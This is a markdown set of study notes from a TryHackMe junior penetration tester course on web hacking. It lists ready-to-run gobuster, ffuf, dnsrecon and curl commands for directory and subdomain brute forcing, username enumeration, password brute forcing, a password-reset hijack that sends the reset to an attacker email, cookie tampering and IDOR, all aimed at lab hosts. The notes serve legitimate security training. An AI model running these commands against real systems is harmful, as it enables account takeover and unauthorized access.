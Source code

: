 # THM Jr Penetration Tester

# Web Hacking

## Offensive intro
Brute force website to find hidden pages and directories  
`gobuster -u http://fakebank.thm -w wordlist.txt dir`

## Defensive intro
Security Operations Center (SOC), inc. Threat Intelligence  
Digital Forensics and Incident Response (DFIR), inc. Malware Analysis

## Stages

**Information Gathering**  
This stage involves collecting as much publically accessible information about a target/organisation as possible, for example, OSINT and research.  
Note: This does not involve scanning any systems.  

**Enumeration/Scanning**  
This stage involves discovering applications and services running on the systems. For example, finding a web server that may be potentially vulnerable.  

**Exploitation**  
This stage involves leveraging vulnerabilities discovered on a system or application. This stage can involve the use of public exploits or exploiting application logic.  
  
**Privilege Escalation**  
Once you have successfully exploited a system or application (known as a foothold), this stage is the attempt to expand your access to a system. You can escalate horizontally and vertically, where horizontally is accessing another account of the same permission group (i.e. another user), whereas vertically is that of another permission group (i.e. an administrator).  

**Post-exploitation**	 
This stage involves a few sub-stages:  
1. What other hosts can be targeted (pivoting)  
2. What additional information can we gather from the host now that we are a privileged user  
3. Covering your tracks  
4. Reporting

## Web Application walkthrough
In HTML source we can find:  
- `comments` and `hidden links` in html source
- `directories` for open permissions  
- `framework version`  
- `manipulate` HTML via inspector  
- breakpoint `debugger` in js code  
- `network` information  

## Content Discovery

**Manual**  
- `robots.txt`
- `favicon` revealing the framework used (md5 sum the result and look in https://wiki.owasp.org/index.php/OWASP_favicon_database)  
- `sitemap.xml` (more URLs)  
- `curl -v` (check versions of software used)  
- `admin URL` for instance gotten from framework websites

**OSINT**  
- `site:tryhackme.com admin` Google hacking/dorking  
- `technologies` used with Wappalyzer (https://www.wappalyzer.com/)  
- The Wayback Machine `https://archive.org/web/`
- `GitHub`'s search feature to look for company names or website names
- `S3 buckets` can be discovered  

**Automated**  
- `wordlists` for passwords, directories and filenames  
- Automation tools like `ffuf, dirb and gobuster`

## Subdomain Enumeration

3 different subdomain enumeration methods: Brute Force, OSINT and Virtual Host   

**OSINT**  
-  `Certificate search` for subdomains: https://crt.sh and https://ui.ctsearch.entrust.com/ui/ctsearchui
-  `Search engine` for subdomains: site:*.domain.com -site:www.domain.com
-  Automate search engine listing `./sublist3r.py -d acmeitsupport.thm`  

**Brute Force**
- `dnsrecon` try many domains dnsrecon -t brt -d acmeitsupport.thm

**Virtual Host**
- brute force subdomain that could be in /etc/host `ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.50.172 -fs {size}`  

## Authentication Bypass

**Username Enumeration**  
- `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.239.105/customers/signup -mr "username already exists" | grep "\[Status: 200" | awk '{print $1}' > valid_usernames.txt` finds valid usernames that exists  

**Brute Force**  
- Then use common passwords: `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.239.105/customers/login -fc 200`  

**Logic Flaw**  
Playing with the fact  PHP $_REQUEST variable is an array that contains data received from the query string _AND_ POST data. We do this 2 queries:  
- `curl 'http://10.10.164.175/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'`  
Create an account and then:    
- `curl 'http://10.10.164.175/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`  

**Cookie Tampering**  
- Set the cookie `curl -H "Cookie: logged_in=true; admin=true" http://10.10.164.175/cookie-test`
- `Find md5 content` by looking up DB of hashes such as ` https://crackstation.net/`  
- `Decode/Encode base64 content` i.e: {"id":1,"admin": false} becomes {"id":1,"admin": true}

## IDOR

- changing `IDs` in URLs  
- can also be done `decoding/encoding` again data in cookies, POST data and see server responses
- `https://crackstation.net/` for maybe finding the data behind IDs in this DB of billions of md5 hash to value results
- check IDOR possibilities by creating 2 accounts and then checking out each other account when logged in (or not)
- can also come from `AJAX call` and change of parameters ($.ajax({ type: "GET", url: "https://10-10-206-77.p.thmlabs.com/api/v1/customer?id=3" });)  



- 


